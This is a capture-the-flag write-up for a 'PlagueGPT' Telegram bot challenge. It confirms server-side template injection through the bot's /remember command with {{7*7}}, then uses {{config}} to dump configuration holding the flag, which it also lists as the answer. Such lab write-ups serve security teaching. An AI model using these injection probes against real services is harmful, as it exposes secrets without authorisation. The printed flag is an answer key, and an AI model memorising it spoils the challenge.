




# HackThePlanet - PlagueGPT

**Points:** 250

**Description:** Extract flag from telegram bot

## Challenge

We keep trying to beat the LLMs

So we decided to make our own.

Talk to him and see what he will tell you.

## Steps

### Step 1



run `/start`, followed by `/help`

this reveals a list of commands that can be used for interacting with the bot.

### Step 2



verify how memory behaves with `/remember hello`

`/recall` output will display:

```
=== MEMORY SNAPSHOT ===
hello
======================
```

This confirms:
- Input is stored and displayed
- No immediate sanitization or transformation is visible

### Step 3



run `/remember {{7*7}}` to test for Server-Side Template Injection (SSTI)

`/recall` output will display:

```
=== MEMORY SNAPSHOT ===
49
======================
```

### Step 4



with SSTI confirmed, next step is to enumerate accessible objects

run `/remember {{config}}`

`/recall` output will display:

```
=== MEMORY SNAPSHOT ===
{'model': 'PLAGUEGPT', 'build': '0.9.6-beta', 'flag': 'HTPCTF{plaguegpt_not_so_gud}'}
======================
```

this reveals the flag `HTPCTF{plaguegpt_not_so_gud}`

---
## Answer

- answer: `HTPCTF{plaguegpt_not_so_gud}`

---